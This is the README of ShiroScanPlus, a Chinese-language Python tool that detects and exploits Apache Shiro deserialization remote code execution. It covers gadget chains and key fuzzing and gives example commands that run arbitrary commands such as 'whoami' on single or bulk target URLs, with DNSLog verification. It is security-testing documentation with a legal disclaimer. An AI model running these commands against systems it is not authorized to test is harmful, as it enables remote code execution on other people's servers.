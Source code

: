 # ShiroScanPlus
ShiroScan_Plus是基于sv3nbeast/ShiroScan改进的增强版的Shiro反序列化一键检测工具
 
## 声明
* 不推荐当做exp使用，效率问题
* 仅供安全人员验证,测试是否存在此漏洞
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) ，勿用于非授权的测试，本人不负任何连带法律责任。**  

## 新改动内容
1. 更正requirements.txt，优化代码规范和逻辑问题。 
2. 用[**Koalr**](https://github.com/zema1) 的利用链 
   CommonsCollectionsK1到K4替代CommonsCollections1到7
3. 为了Windows用户方便安装pycrypto，requirements.txt中添加了pycryptodome==3.9.8
4. 增加参数解析，增加DNSLog验证、URL文件批量处理、输出到文件等功能，多个功能可以配合使用。   

## 原改动内容  

1. 新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
2. 增加多线程，虽模块增加但速度却提高300%
3. 集成21个key进行fuzz  

## 使用方法  
**运行环境为Python3**
```
* 安装依赖：pip install -r requirments.txt  
* 获取帮助：python3 shiro_rce_plus.py --help
```

```
* 使用示例     
* Example：python3 shiro_rce_plus.py -u https://url.com -c "whoami"
* Example: Python3 shiro_rce_plug.py -f urls.txt -c "whoami"
* Example: Python3 shiro_rce_plug.py -v -f urls.txt --dnslog "{randstr}.testdnslog.com"  
            --check_dnslog "http://check.testdnslog.com/{randstr}"  --flag "True"  
            --output res.txt
```  

## 帮助信息
```
* python3 shiro_rce_plus.py --help  
  

 ____  _     _          ____                  ____  _
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __ |  _ \| |_   _ ___
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \| |_) | | | | / __|
 ___) | | | | | | | (_) |__) | (_| (_| | | | |  __/| | |_| \__ \
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|_|   |_|\__,_|___/

                           原作者： 斯文
                           修改：  Hack3rHan

usage: shiro_rce_plus.py [-h] [-u URL] [-f FILE] [-c COMMAND] [-v] [--output OUTPUT] [--dnslog DNSLOG]
                         [--flag FLAG] [--check_dnslog CHECK_DNSLOG]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     待检测单个URL。
  -f FILE, --file FILE  待检测URL文件，换行分割。
  -c COMMAND, --command COMMAND
                        要执行的命令。
  -v, --verify          使用DNSLog验证。
  --output OUTPUT       输出到文件，文件不存在会自动创建。
  --dnslog DNSLOG       包含{randstr}的字符串，randstr会被format。
  --flag FLAG           DNSlog检查页面包含的关键词。
  --check_dnslog CHECK_DNSLOG
                        包含{randstr}的字符串，randstr会被format。


```
## 其他
* 新利用链来自[**Koalr**](https://github.com/zema1) 的https://mp.weixin.qq.com/s/jV3B6IsPARRaxetZUht57w  
* 如果有帮助，请点个star哦，对应blog文章：http://www.svenbeast.com/post/tskRKJIPg/
* http://www.dnslog.cn/  验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来
* 11个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，在moule下的源代码中自行添加方法即可
* 为了脚本运行简单，多线程数量不是使用者传参控制，默认20线程，如需改动请到/moule/main.py第20行代码自行修改控制线程的参数  

